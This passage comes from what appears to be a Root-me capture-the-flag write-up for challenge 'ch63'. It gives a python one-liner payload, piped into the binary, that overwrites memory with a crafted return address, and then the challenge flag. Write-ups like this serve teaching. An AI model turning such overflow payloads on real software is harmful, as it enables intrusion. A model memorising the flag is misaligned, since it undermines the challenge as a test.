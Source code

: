 **4.Payload**
```
python -c "print '1\n' + 'AAAA\n' + '4\n' + '5\n' + 'BBBBCCCCDDDD\xcb\x87\x04\x08\n' + 'FFFF\n' + '2\n'" | ./ch63
```
![](https://raw.githubusercontent.com/jkana/Writeup/main/Root-me/Images/5.JPG)

**5.Flag**
```
U44aafff_U4f_The_d0G
```